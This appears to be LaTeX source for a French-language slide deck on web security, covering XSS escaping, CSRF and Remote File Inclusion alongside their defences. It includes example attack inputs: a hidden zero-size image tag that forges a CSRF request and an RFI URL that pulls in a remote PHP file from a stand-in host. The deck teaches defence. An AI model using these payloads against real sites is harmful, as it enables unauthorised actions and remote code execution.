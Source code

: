 \documentclass{beamer}
\begin{document}
\begin{frame}{Comment la sécuriser ?}
	\begin{itemize}
		\item Echapper les caractères
		\item Remplace donc par exemple < par \&lt\;
		\item Affiche donc au final <script>alert('Hello')</script> et n'éxécute pas le code
	\end{itemize}
\end{frame}

\begin{frame}{CSRF}
	\begin{itemize}
		\item Acronyme de Cross-Site Request Forgery
		\item Permet d'utiliser les droits d'un autre utilisateur pour faire ce que l'on veut
	\end{itemize}
\end{frame}

\begin{frame}{Comment ça marche?}
	\begin{itemize}
		\item Demander à un utilisateur d'aller sur un lien
		\item Ou le cacher dans une image :
		\item $<$img src="http://monsite.org/compte.php?numeroCompte=1337" \\
				width="0" height="0" border="0"$>$
		\item L'utilisateur va donc effectuer l'action que l'on veut avec sa session
	\end{itemize}
\end{frame}

\begin{frame}{Comment la sécuriser ?}
	\begin{itemize}
		\item Ajouter un token nécessaire dans chaque formulaire sur le site que l'on veut sécuriser
		\item <input type="hidden" name="CSRFToken" value="Token chiffré" >
	\end{itemize}
\end{frame}


\begin{frame}{RFI (Remote File Inclusion)}
	\begin{itemize}
		\item Principe : Inclure un site dans le site
		\item Passe par l'inclusion de page avec des paramètres
		\item Permet d'envoyer des données personalisés
		\item Permet également d'executer du code PHP sur la machine distante
		\item http://monsite.org/index.php?view=http://hacking.org/hack.php
	\end{itemize}
\end{frame}
\end{document}
